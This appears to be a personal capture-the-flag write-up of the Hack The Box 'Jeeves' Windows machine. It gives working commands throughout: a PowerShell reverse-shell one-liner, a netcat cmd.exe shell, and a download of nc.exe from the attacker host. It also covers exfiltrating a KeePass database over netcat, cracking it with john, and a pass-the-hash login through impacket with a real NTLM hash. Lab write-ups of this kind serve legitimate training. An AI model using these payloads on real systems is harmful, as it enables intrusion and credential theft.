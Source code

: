 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Jeeves
**IP** : 10.129.228.112
**Objectives :** Get user and root flags
**OS :** #Windows

##### **Conclusion**
**Time :** 3h39
	**Start :** 22.04.2025 16:31
	**Break at/to :** 22.04.2025 19:02 | 23.04.2025 17:00
	**Finish :** 23.04.2025 18:08
**Satisfaction :**  7/10 Because for the first flag it was easy but for the escalation privilege it was more complicated so I have to use the writeup.
### 1. **Reconnaissance

We start with an #nmap scan

```BASH
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

And we make a #gobuster scan on the port 50000 because it's the only we can see without the -p-

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-0k04etkbc3]─[~]
└──╼ [★]$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.228.112:50000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.228.112:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.129.228.112:50000/askjeeves/]
Progress: 108476 / 220561 (49.18%)
```

![[Pasted image 20250422164215.png]]


## 2. **Weaponization

## 3. **Delivery

## 4. **Exploitation

We can create a new jobs and in the build > Add Build step select Execute Windows batch command.

And we can enter our command. I wrote whoami.
Adn after build the jobs we can click on Conole OutPut and see the result of our command.

![[Pasted image 20250422165715.png]]

So with this reverse shell we can have an #RCE 

```POWERSHELL
powershell -nop -c "& { $client = New-Object Net.Sockets.TCPClient('10.10.14.117',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}}"
```

The server is extremely slow but it's okkey

![[Pasted image 20250422172207.png]]

After 1h30 without extracting the CEH.kdbx file I found that I have to make some changes.

First

```BASH
nc -nvlp 1234
```

After

Download nc.exe on my machine and place me in the directory and start a http python server.

End

```POWERSEHLL
powershell wget "http://10.10.14.117:8000/nc.exe" -outfile "nc.exe"
nc.exe -e cmd.exe 10.10.14.117 1234
```

And it's good.


For extracting the file :

Attacker :
```BASH
nc -l -p 12345 > file.kdbx
```

Victim :
```POWERSHELL
nc.exe 10.10.14.117 12345 < C:\Users\kohsuke\Documents\CEH.kdbx
```

And now we have the .kdbx file.

Now we want to crack the file so we start with 

```BASH
keepass2john file.kdbx > unfile.hash
```

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-yfwujbxq4p]─[~]
└──╼ [★]$ john --wordlist=/home/bobinette/Desktop/rockyou.txt unfile.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (file)     
1g 0:00:00:11 DONE (2025-04-23 10:24) 0.08403g/s 4619p/s 4619c/s 4619C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So the password is moonshine1

So first, you need to download keepassxc :

```BASH
sudo apt install keepassxc
```

And after you can run this and enter the password :

```BASH
keepassxc open file.kdbx
```

![[Pasted image 20250423173252.png]]

![[Pasted image 20250423173816.png]]

Now we can correctly connect to the machin as Administrator with : 

```BASH
python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 jeeves/Administrator@10.129.228.112
```

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

So for the first flag it's in kohsuke on his desktop :

```POWERSHELL
> type kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```


Now for the root flag :

```POWERSHELL
C:\Windows\system32>type C:\Users\Administrator\Desktop\hm.txt
The flag is elsewhere.  Look deeper.

C:\Windows\system32>type C:\Users\Administrator\Desktop\"Windows 10 Update Assistant".lnk
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
L�F� �<VU��<VU��E���ȚP�O� �:i�+00�/C:\j1eKw4WINDOW~1R	�dK8eKw4.�q�&Windows10Upgrade~2Ț�JOo WINDOW~1.EXEb	�dK9dK9.��Windows10UpgraderApp.exe[-ZɱP�C:\Windows10Upgrade\Windows10UpgraderApp.exe2..\..\..\Windows10Upgrade\Windows10UpgraderApp.exe&/ClientID "Win10Upgrade:VNL:Th2Eos:{}"`�XjeevesĘ�R+�$H�||�� �
                                                                     U�������
                                                                             )E�.Ę�R+�$H�||�� �
                                                                                               U�������
                                                                                                       )E�.E	�91SPS�mD��pH�H@.�=x�hH�R;W�0@��U@�S|�
```

We are going to look deeper.

```POWERSHELL
C:\Windows\system32>dir /R C:\Users\Administrator\Desktop\
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,680,635,392 bytes free

C:\Windows\system32>type C:\Users\Administrator\Desktop\hm.txt:root.txt
The filename, directory name, or volume label syntax is incorrect.

C:\Windows\system32>more < C:\Users\Administrator\Desktop\hm.txt:root.txt
[-] SMB SessionError: code: 0xc0000034 - STATUS_OBJECT_NAME_NOT_FOUND - The object name is not found.
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-yfwujbxq4p]─[~/Desktop/netcat-1.11/impacket]
└──╼ [★]$ python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 jeeves/Administrator@10.129.8.255
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir /R C:\Users\Administrator\Desktop\
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,680,582,144 bytes free

C:\Windows\system32>powershell -command "Get-Content -path 'C:\Users\Administrator\Desktop\hm.txt:root.txt'"
afbc5bd4b615a60648cec41c6ac92530
```